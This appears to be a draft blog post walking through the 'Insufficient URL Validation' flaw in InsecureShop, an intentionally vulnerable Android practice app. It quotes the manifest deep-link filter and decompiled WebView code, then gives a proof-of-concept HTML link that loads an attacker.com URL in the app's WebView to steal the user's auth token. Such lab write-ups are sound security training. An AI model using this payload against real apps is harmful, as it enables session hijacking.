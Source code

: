 ```yaml
---
title: InsecureShop - Insufficient URL Validation
date: '2022-07-23'
tags: ['android', 'appsec', 'insecureshop']
draft: true
summary: Possible to load any arbitrary URL in webview via Deeplink
images: '/static/images/insecureshop/deeplink.jpg'
layout: PostLayout
canonicalUrl:
---
```


# Insufficient URL Validation

> The class `com.insecureshop.WebViewActivity` contains the following code. As per the code, the application registers a path web and a query parameter url.

First step for analysis is to identify the deep links in Manifest file.

## What are deep links?

A deep link is an intent filter system that allows users to directly interact with a specific activity in an android application.

Example of our activity definition in the manifest file.

```xml
<activity android:name="com.insecureshop.WebViewActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="insecureshop" android:host="com.insecureshop"/>
    </intent-filter>
</activity>
```

`com.insecureshop.webViewActivity` is browsable meaning can be accessed from web client. This is possible through resolving the URL in the `<data>` tags.
The webview responds to the scheme of `insecureshop`. Because the webview activity is wrapped under `intent-filter`, therefore meaning it is exported and can be accessed by external applications.

```java
Intrinsics.checkExpressionValueIsNotNull(intent, "intent");
Uri uri = intent.getData();
    if (uri != null) {
        String data = null;
        data = null;
        if (StringsKt.equals$default(uri.getPath(), "/web", false, 2, null)) {
            Intent intent2 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent2, "intent");
            Uri data2 = intent2.getData();
            if (data2 != null) {
                data = data2.getQueryParameter("url");
            }
        } else if (StringsKt.equals$default(uri.getPath(), "/webview", false, 2, null)) {
            Intent intent3 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent3, "intent");
            Uri data3 = intent3.getData();
            if (data3 == null) {
                Intrinsics.throwNpe();
            }
            String queryParameter = data3.getQueryParameter("url");
            if (queryParameter == null) {
                Intrinsics.throwNpe();
            }
```

The above code checks is the url has `web` or `webview` in the URL path. We can use that to craft our attack by sending user an URL we control.

We can craft an attack as shown below.

```html
<!DOCTYPE html>
<html>
  <body style="text-align: center;">
    <h1><a href="insecureshop://com.insecureshop/webview?url=https://attacker.com/">POC</a></h1>
  </body>
</html>
```

Using the above `attack`, one is able to steal authentication token in the user's header.
